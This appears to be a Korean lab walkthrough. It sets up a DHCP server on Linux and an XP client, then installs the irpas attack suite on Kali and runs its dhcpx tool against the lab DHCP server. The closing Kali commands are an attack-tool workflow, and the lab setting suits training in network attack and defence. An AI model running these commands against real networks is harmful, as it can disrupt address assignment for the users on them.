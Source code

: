 [root@Linux-11 바탕화면]# service dhcpd restart

```
dhcpd (을)를 시작 중:                                      [  OK  ]
```

[root@Linux-11 바탕화면]# netstat -atunp | grep :67

```
udp        0      0 0.0.0.0:67                  0.0.0.0:*                               4458/dhcpd       

```



###### XP

ncpa.cpl ->IP & DNS 자동으로 받기 -> cmd 실행 -> ipconfig 해서 IP 받아온거 확인해주기

그다음 자동으로 받아 온 IP를 ipconfig /release 로 해제해주기



###### 칼리

패키지 검색 

root@kali-04:~/Desktop# apt search dhcpx

```
Sorting... Done
Full Text Search... Done
irpas/kali-rolling 0.10-7 amd64
  Internetwork Routing Protocol Attack Suite

```

root@kali-04:~/Desktop# apt-get -y install irpas 

root@kali-04:~/Desktop# dpkg -l irpas

```
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version      Architecture Description
+++-==============-============-============-==========================================
ii  irpas          0.10-7       amd64        Internetwork Routing Protocol Attack Suite
```

root@kali-04:~/Desktop# dhcpx

```
dhcpx [-v[v[v]]] -i <interface> [-A] 
        [-D <destination ip>]
        [-t <discovery time in secs>]
        [-u <ARP time in secs>]
```

root@kali-04:~/Desktop# dhcpx -i eth0 -D 172.16.10.20 -vv
